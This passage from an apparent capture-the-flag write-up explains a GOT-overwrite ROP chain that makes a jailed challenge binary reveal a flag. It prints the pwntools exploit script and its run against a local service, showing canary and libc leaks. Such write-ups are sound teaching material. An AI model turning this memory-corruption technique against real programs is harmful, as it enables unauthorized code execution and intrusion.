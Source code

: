 This is another gadget that loads the address of the stack into `rdi`. This way I can set `rdi` to be the string `please_give_me_flag`.

#### syscall

The final piece of the chain is when `stpcpy` gets called we need to trigger the syscall instruction.
Any address of a syscall will work because we don't plan to continue the chain after.

### The Code

The following code writes the `GOT chain`
```python
writes = [end,
	lea_rdi_rsp, strlen_got,
	double_call_gets,memcpy_got,
	mov_rax_rsp_40, strrchr_got,
	add_rsp_a_lot,strcasecmp_got,
	lea_rdi_rsp2, wcscmp_got,
	syscall,stpcpy_got,
  
	gets,memmove_got,
0]
writes=writes[::-1]
  
i=0
while i < len(writes)-1:
	do_write(writes[i],writes[i+1])
	i+=2
  
p2 = b"C"*0x28
p2 += p64(0x5add011)
p2 += b"D"*(0xe0-(8*4))
p2 += p64(0x6942069420)
p2 += p64(2)
p2 += p64(3)
p2 += b"A"*5
p2 += b"please_give_me_flag\x00"
  
io.sendline(p2)
io.interactive()
```

I wrote the `writes` chain backwards from how we need to write them in the binary only to make it easier for me to follow the chain. Remember its important to write the final piece (`strlen`) last because thats what triggers the chain in the first place. I also added a placeholder `end` in the chain because of how the arbitrary write was explained earlier with it taking 2 calls to `manual_jump` to do the overwrite, so `end` is just an unused `GOT` entry that never gets written to but was placed to get `strlen` written to. 

We could again try to call `execve`, however the jail will stop that.

```c
[+] Opening connection to 127.0.0.1 on port 5000: Done
canary: 0x3b40e18a1bd1d00
libc leak: 0x7fd2987cbd90
libc base: 0x7fd2987a2000
[*] Switching to interactive mode
Jumping to Year 2559109198 at AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Current Year: 2558304624
NO EXEC!
[*] Got EOF while reading in interactive
$  
```

